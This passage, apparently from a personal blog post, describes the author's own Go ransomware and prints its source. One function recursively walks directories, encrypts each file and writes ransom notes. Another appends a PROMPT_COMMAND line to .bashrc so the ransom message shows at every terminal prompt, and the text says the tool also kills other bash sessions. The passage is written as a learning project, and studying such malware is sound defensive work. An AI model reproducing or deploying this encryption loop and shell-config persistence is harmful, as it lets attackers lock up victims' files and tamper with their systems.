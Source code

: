 <img src="/MM-Website/assets/images/posts/ransomware/ssl.jpg" width="75%" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>

At its core, my malware has a very basic set of instructions. It recursively walks through each of the directories specified by `!cryptor-directories` and does a few checks to determine if a file is good to encrypt. It avoids symlinks, system files and checks whether it's looking at a directory. If it finds a directory, it places a ransom note inside, before going in and encrypting everything in it:

```go
func encryptDirectory(directoryPath string) {
	filepath.Walk(directoryPath,
		func(filePath string, fileInfo os.FileInfo, err error) error {
			if !fileInfo.IsDir() {
				encryptFile(filePath)
			} else {
				noteFile, err := os.Create("ransom_note.txt")
				if err == nil {
					noteFile.WriteString(ransomMessage)
				} else {
					fmt.Println("[!] Error creating ransom note in " + filePath)
				}
			}
			return nil
		})
}
```

Traditionally, ransomware would change your desktop image and leave a ransomware note to give the victim instructions on what happened and how to get their files back. My project however is aimed to be strictly CLI based, so although it leaves ransom notes, the victim won't know what happened unless they see one. I came up with a pretty funny solution to remedy this - the `PROMPT_COMMAND` variable. `PROMPT_COMMAND` is an environment variable in Bash that decides what happens every time a command prompt appears in the terminal:

<img src="/MM-Website/assets/images/posts/ransomware/prompt.png" width="75%" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>

If one could tamper with this variable, they could get their code executed not only when the terminal first opens, but also whenever any command is run, because the prompt reappears right after. Naturally, I thought it was hilarious to stick my ransom message into that variable and have it be echo'ed anytime the victim uses the terminal. My code currently backdoors the `.bashrc` file by adding an extra line to it and then kills all running bash sessions except for its own to ensure changes take effect:

```go
func backdoorBashRc(filePath string) {
	file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_APPEND, 0644)
	if err != nil {
		fmt.Println("[!] Failed opening file: " + filePath)
	}
	defer file.Close()
	file.WriteString("PROMPT_COMMAND=\"echo '" + ransomMessage + "' ; ${PROMPT_COMMAND}\"\n")
}
```
